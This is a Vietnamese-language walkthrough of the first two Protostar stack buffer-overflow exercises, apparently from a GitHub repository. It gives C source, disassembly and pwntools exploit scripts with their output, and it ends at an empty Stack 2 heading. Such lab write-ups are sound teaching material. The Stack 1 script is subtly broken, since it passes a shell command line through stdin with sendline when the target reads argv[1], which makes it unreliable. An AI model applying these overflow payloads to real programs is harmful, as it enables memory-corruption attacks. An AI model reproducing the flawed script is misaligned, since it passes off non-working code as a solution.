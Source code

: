 # WriteUp
# PROTOSTAR EXPLOIT EXERCISE
## Stack 0 
Hãy cùng mở đầu với stackz3r0 nào các bạn ! Đề bài đã cung cấp cho chúng ta code C nên mọi thứ sẽ dễ hình dung hơn là mã ASM tuy nhiên chúng ta sẽ phân tích cả 2 nhé! 
Từ code C dưới đây, đề bài yêu cầu chúng ta thấy đề bài yêu cầu chúng ta thay đổi biến *modified* để in ra dòng *You changed the 'modified' variable* :
=> Nhìn từ code thì chúng ta sẽ có ý tưởng rằng nhập vào buffer bằng hàn gets và tràn sang modified.
```
/*gcc -o stack0 stackzero.c -fno-stack-protector -g -z execstack */

#include<stdlib.h>
#include<unistd.h>
#include<stdio.h>

int main(int argc, char **argv)
{
	volatile int modified;
	char buffer[64];

	modified = 0;
	gets(buffer);

	if(modified != 0 )
		printf("You changed the 'modified' variable \n");
	else
		printf("Try again?\n");
}
```
Mã ASM mà chúng ta disassemble từ gdb của file stack0 như sau : 
```
   0x0000000000400547 <+0>:	push   rbp
   0x0000000000400548 <+1>:	mov    rbp,rsp
   0x000000000040054b <+4>:	sub    rsp,0x60
   0x000000000040054f <+8>:	mov    DWORD PTR [rbp-0x54],edi
   0x0000000000400552 <+11>:	mov    QWORD PTR [rbp-0x60],rsi
   0x0000000000400556 <+15>:	mov    DWORD PTR [rbp-0x4],0x0
   0x000000000040055d <+22>:	lea    rax,[rbp-0x50]
   0x0000000000400561 <+26>:	mov    rdi,rax
   0x0000000000400564 <+29>:	mov    eax,0x0
   0x0000000000400569 <+34>:	call   0x400450 <gets@plt>
   0x000000000040056e <+39>:	mov    eax,DWORD PTR [rbp-0x4]
   0x0000000000400571 <+42>:	test   eax,eax
   0x0000000000400573 <+44>:	je     0x400581 <main+58>
   0x0000000000400575 <+46>:	mov    edi,0x400628
   0x000000000040057a <+51>:	call   0x400430 <puts@plt>
   0x000000000040057f <+56>:	jmp    0x40058b <main+68>
   0x0000000000400581 <+58>:	mov    edi,0x40064d
   0x0000000000400586 <+63>:	call   0x400430 <puts@plt>
   0x000000000040058b <+68>:	mov    eax,0x0
   0x0000000000400590 <+73>:	leave  
   0x0000000000400591 <+74>:	ret   
```
Theo lý thuyết của buffer overflow thì chúng ta chỉ cần nhập byte vào cho tràn biến buffer và tràn sang modified là oke :< Vậy thì phải xác định được vị trí và kích thước của buffer và modified.
Dựa vào mã ASM ở trên chúng ta suy ra được :
[rbp-0x50] sẽ là địa chỉ của *buffer*
[rbp-0x4] sẽ là địa chỉ của *modified*
0x50 - 0x4 = 0x4c có nghĩa chỉ cần đè > 0x4c là có thể 

Mình dùng đoạn code sau để exploit bài này!
```
from pwn import *

BIN = "./stack0"
DEBUG = 1

gets = 0x0000000000400588
callback = 0x0000000000400575
def exploit():
  payload = b"A"*0x4c + b"B"
  # _breakpoint = """
  #     b *0x0000000000400588
  # """
  # gdb.attach(io, _breakpoint)
  io.sendline(payload)
  io.recv()
  io.interactive()


io = process(BIN)
# context.log_level='debug'
exploit()
```

```
You changed the 'modified' variable
```
## Stack 1

LevelUp++ ! 
Cùng check code C đề cung cấp cho chúng ta như sau :
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("You have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```
Chà chà , bài này về cơ chế cũng tương tự bài z3r0 thôi nhé ! Nhưng mà khác ở điểm phương thức nhập input sẽ khác và biến modified yêu cầu thành 1 giá trị xác định rõ ràng cụ thể là *modified = 0x61626364* và input sẽ nhập bằng argv[1] !
Cũng không có gì là quá khó vì chúng ta đã xác định được vị trí của 2 biến trên.
Có 1 điều cần lưu ý là đối với địa chỉ sẽ được ghi theo little edian, có nghĩa là byte nhỏ nhất sẽ nằm ở đầu tiền và byte lớn nhất lại nằm sau cùng ! Tuy nhiên chúng ta có hàm p64() từ thư viện pwntools sẽ giúp chúng ta phần đó 
p64() là vì chương trình này chúng ta complier nó ở hệ điều hành 64 bit, còn nếu 32 bit thì dùng p32().
```
from pwn import *

BIN = "./stack1"
DEBUG = 1

modified = 0x61626364
payload = b"A"*0x4c 
payload += p64(modified)


io = process(BIN)
io.sendline("./stack1 `python -c 'print(payload)'`")

io.interactive()
```
Và cứ thế chúng ta có được dòng :
```
You have correctly got the variable to the right value
```

## Stack 2



























